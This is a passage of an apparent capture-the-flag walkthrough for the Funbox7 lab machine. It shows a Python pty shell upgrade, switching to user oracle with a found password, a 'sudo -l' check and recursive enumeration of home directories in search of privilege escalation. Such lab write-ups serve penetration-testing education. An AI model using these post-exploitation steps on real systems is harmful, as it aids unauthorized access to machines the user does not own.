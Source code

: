 ```bash
$ su oracle
su: must be run from a terminal

```
That did not work yet.

## Privilege escalation
Let's upgrade the shell a bit so we can switch user in our terminal.
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@funbox7:/$ su oracle
su oracle
Password: hiphop

oracle@funbox7:/$ 

```
We are oracle on the system, we should check if we can run anything as sudoer. To check this we can run `sudo -l` in the terminal.

```bash
oracle@funbox7:~$ sudo -l           sudo -l
sudo -l
[sudo] password for oracle: hiphop

Sorry, user oracle may not run sudo on funbox7.
```
We got no luck on this one yet. We should check the home directories of the other users to see if we can find anything useful.
```bash
oracle@funbox7:~$ ls /home -ahlR    ls /home -ahlR
ls /home -ahlR
/home:
total 28K
drwxr-xr-x  7 root   root   4.0K Sep 18  2020 .
drwxr-xr-x 24 root   root   4.0K Mar 31 15:16 ..
drwxr-xr-x  4 goat   goat   4.0K Sep 19  2020 goat
drwxr-xr-x  2 harry  harry  4.0K Sep 19  2020 harry
drwxr-xr-x  4 karla  karla  4.0K Sep 18  2020 karla
drwxr-xr-x  3 oracle oracle 4.0K Mar 31 18:18 oracle
drwxr-xr-x  2 sally  sally  4.0K Sep 19  2020 sally

/home/goat:
total 40K
drwxr-xr-x 4 goat goat 4.0K Sep 19  2020 .
drwxr-xr-x 7 root root 4.0K Sep 18  2020 ..
-rw------- 1 goat goat  292 Sep 19  2020 .bash_history
-rw-r--r-- 1 goat goat  220 Sep 18  2020 .bash_logout
-rw-r--r-- 1 goat goat 3.7K Sep 18  2020 .bashrc
drwx------ 2 goat goat 4.0K Sep 19  2020 .cache
drwx------ 3 goat goat 4.0K Sep 19  2020 .gnupg
-rw------- 1 root root    0 Sep 19  2020 .mysql_history
-rw-r--r-- 1 goat goat  807 Sep 18  2020 .profile
-rw-r----- 1 root root 1.4K Sep 18  2020 shadow.bak
-rw-rw-r-- 1 goat goat  165 Sep 19  2020 .wget-hsts
ls: cannot open directory '/home/goat/.cache': Permission denied
ls: cannot open directory '/home/goat/.gnupg': Permission denied

/home/harry:
total 20K
drwxr-xr-x 2 harry harry 4.0K Sep 19  2020 .
drwxr-xr-x 7 root  root  4.0K Sep 18  2020 ..
-rw------- 1 harry harry    0 Sep 19  2020 .bash_history
-rw-r--r-- 1 harry harry  220 Sep 18  2020 .bash_logout
```